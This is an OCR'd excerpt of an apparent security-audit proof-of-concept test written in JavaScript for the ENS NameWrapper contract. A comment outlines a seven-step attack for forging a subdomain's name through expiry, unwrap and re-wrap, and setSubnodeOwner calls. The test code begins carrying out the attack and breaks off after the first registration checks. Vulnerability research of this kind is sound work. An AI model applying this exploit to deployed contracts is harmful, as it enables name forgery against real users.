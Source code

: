 ```javascript=
    //make sure base registrar is owner of eth TLD
    expect(await EnsRegistry.owner(namehash('eth'))).to.equal(
      BaseRegistrar.address
    )
  })

  beforeEach(async () => {
    result = await ethers.provider.send('evm_snapshot')
  })
  afterEach(async () => {
    await ethers.provider.send('evm_revert', [result])
  })

  describe('name of a subdomain can be forged', () => {
    /*
     * Attack scenario:
     * 1. the hacker registers a 2LD domain, e.g., base.eth
     *
     * 2. he assigns a subdomain for himself, e.g., sub1.base.eth
     *      + the expiry of sub1.base.eth should be set as expired shortly
     *      + note that the expiry is for sub1.base.eth not base.eth, so it is safe to make it soonly expired
     *
     * 3. the hacker waits for expiration and unwraps his sub1.base.eth
     *
     * 4. the hacker invokes ens.setSubnodeOwner to set the owner of sub2.sub1.base.eth as NameWrapper contract
     *
     * 5. the hacker re-wraps his sub1.base.eth
     *
     * 6. the hacker invokes nameWrapper.setSubnodeOwner for sub2.sub1.base.eth
     *      + as such, `names[namehash(sub2.sub1.base.eth)]` becomes empty
     *
     * 7. the hacker invokes nameWrapper.setSubnodeOwner for eht.sub2.sub1.base.eth.
     *      + as such, `names[namehash(eth.sub2.sub1.base.eth)]` becomes \03eth
     */
    before(async () => {
      await BaseRegistrar.addController(NameWrapper.address)
      await NameWrapper.setController(dev, true)
    })

    it('a passed test denotes a successful attack', async () => {
      const label = 'base'
      const labelHash = labelhash(label)
      const wrappedTokenId = namehash(label + '.eth')

      // registers a 2LD domain
      await NameWrapper.registerAndWrapETH2LD(
        label,
        hacker,
        86400,
        EMPTY_ADDRESS,
        PARENT_CANNOT_CONTROL | CANNOT_UNWRAP,
        MAX_EXPIRY
      )
      expect(await BaseRegistrar.ownerOf(labelHash)).to.equal(
        NameWrapper.address
      )
      expect(await EnsRegistry.owner(wrappedTokenId)).to.equal(
        NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedTokenId)).to.equal(hacker)

```